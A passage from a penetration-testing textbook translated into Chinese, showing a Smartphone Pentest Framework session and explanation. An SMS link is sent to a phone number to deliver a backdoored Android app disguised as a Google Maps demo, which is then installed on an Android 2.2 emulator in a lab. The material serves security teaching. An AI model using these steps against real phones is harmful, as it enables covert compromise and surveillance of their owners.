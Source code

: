 ```
spf> **6**

Choose a social engineering or client side attack to launch:
    1.) Direct Download Agent
    2.) Client Side Shell
    3.) USSD Webpage Attack (Safe)
    4 ) USSD Webpage Attack (Malicious)

spf> **1**❶
This module sends an SMS with a link to directly download and install an Agent
Deliver Android Agent or Android Meterpreter (Agent/meterpreter:) **Agent**❷
Hosting Path: **/spfbook3**❸
Filename: **/maps.apk**
Delivery Method:(SMS or NFC): **SMS**
Phone Number to Attack: **15555215556**
Custom text(y/N)? **N**
```

在主菜单中选择选项 **`6`**，然后选择 `1.) 直接下载代理` ❶。系统会询问你是否要发送 Android 代理或 Android Meterpreter（Metasploit 的最新添加）。因为我们正在使用 Android 代理，选择 **`代理`** ❷。像往常一样，你将被提示路径、Web 服务器上的应用名称、攻击向量以及从 ❸ 开始攻击的号码。指示 SPF 发送带有默认文本的短信到 Android 2.2 模拟器。

在 Android 2.2 模拟器上，当短信到达时点击链接。应用程序将被下载。下载完成后，点击 **安装**，接受权限并打开应用。如 图 20-3 所示，代理将看起来和感觉像原始应用模板（Google 地图演示），但在后台具有额外功能。

![后门应用](img/httpatomoreillycomsourcenostarchimages2030592.png.jpg)图 20-3. 后门应用
